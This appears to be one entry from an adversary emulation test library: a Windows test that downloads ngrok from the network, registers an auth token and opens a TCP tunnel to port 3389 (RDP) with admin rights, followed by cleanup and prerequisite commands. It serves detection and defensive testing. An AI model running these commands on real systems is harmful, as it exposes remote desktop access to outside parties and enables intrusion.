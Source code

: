 <br/>
<br/>

## Atomic Test #4 - run ngrok
Download and run ngrok. Create tunnel to chosen port.

**Supported Platforms:** Windows


**auto_generated_guid:** 4cdc9fc7-53fb-4894-9f0c-64836943ea60





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_token | ngrok API | string | N/A|
| port_num | port number for tunnel | integer | 3389|
| download | link to download ngrok | string | https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-windows-amd64.zip|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Users\Public\ngrok\ngrok.exe config add-authtoken #{api_token} | Out-Null
Start-Job -ScriptBlock { C:\Users\Public\ngrok\ngrok.exe tcp #{port_num} } | Out-Null
Start-Sleep -s 5 
Stop-Job -Name Job1 | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-Item C:\Users\Public\ngrok -Recurse -ErrorAction Ignore
Remove-Item C:\%userprofile%\AppData\Local\ngrok -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Download ngrok
##### Check Prereq Commands:
```powershell
if (Test-Path C:\Users\Public\ngrok) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path C:\Users\Public\ngrok -ItemType Directory | Out-Null
Invoke-WebRequest #{download} -OutFile C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip
Expand-Archive C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip -DestinationPath C:\Users\Public\ngrok
```
